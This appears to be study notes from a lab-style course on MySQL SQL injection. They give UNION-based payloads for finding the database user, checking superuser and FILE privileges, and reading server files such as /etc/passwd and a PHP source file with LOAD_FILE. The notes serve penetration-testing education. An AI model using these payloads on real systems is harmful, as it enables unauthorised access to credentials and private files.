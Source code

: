 #SQL_Injection 

---

- To load a file's content into a DB, the user must have the **FILE** privilege. To get the current DB user we can use any of the following commands
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

- Or using the **UNION** syntax we use the following syntax:
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

- After we have discovered the user, we use the following command to check if the user has superuser privileges:
```sql
SELECT super_priv FROM mysql.user
```

- or using the **UNION** syntax we get the following:
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

- To get all the privileges for a user(i.e. `root@localhost`), we use the following syntax:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

- Assume we now get the following **privileges**:
![[Pasted image 20241028232656.png]]
**Note**: In this case `root@localhost` has **FILE** privileges

- We can then load a file using SQL syntax as follows:
```sql
SELECT LOAD_FILE('/etc/passwd');
```

- or using the **UNION** syntax:
```
cn' UNION SELECT 1,LOAD_FILE("/var/www/html/search.php"),3,4-- -
```

## Finding User Privileges

- To find the privileges for the DB users using **UNION** syntax:
```bash
cn' UNION SELECT 1, grantee, privilege_type, 4, 5 FROM information_schema.user_privileges-- -
```
